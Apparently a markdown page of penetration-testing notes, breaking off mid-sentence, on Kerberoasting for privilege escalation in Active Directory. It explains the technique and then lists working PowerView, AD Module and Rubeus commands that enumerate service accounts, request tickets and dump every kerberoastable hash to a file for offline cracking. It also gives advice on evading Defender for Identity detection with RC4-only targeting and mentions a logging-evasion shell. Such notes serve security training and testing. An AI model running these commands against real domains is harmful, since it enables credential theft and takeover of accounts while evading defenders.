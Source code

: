 **Let think of scenario's where there where no service or paths, how can we escalate privileges in an active directory environment, what are other opportunities/ways we can go about it ??**

# **Kerberoast**


![](https://i.imgur.com/ruStWfi.png)



- Offline cracking of service account passwords.
- The Kerberos session ticket (TGS) has a server portion which is encrypted with the password hash of service account. This makes it possible to request a ticket and do offline password attack.
- Because (non-machine) service account passwords are not frequently changed, this has become a very popular attack!


**_Example -:_**


- Find user accounts used as Service accounts


```powershell
# AD Module

Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

# PowerView

Get-DomainUser -SPN
```

> **Hint :** When you run `klist`, the SPN can be identified as the name of the {service/machine name}


![](https://i.imgur.com/S7sx0zM.png)



Use Rubeus to list Kerberoast stats
Rubeus.exe kerberoast /stats
• Use Rubeus to request a TGS
Rubeus.exe kerberoast /user:svcadmin /simple
• To avoid detections based on Encryption Downgrade for Kerberos EType (used by likes of
MDI - 0x17 stands for rc4-hmac), look for Kerberoastable accounts that only support
RC4_HMAC
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec
• Kerberoast all possible accounts
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt


> **Note -:** You don't need invisi-shell while running `rubeus` here, it won't 

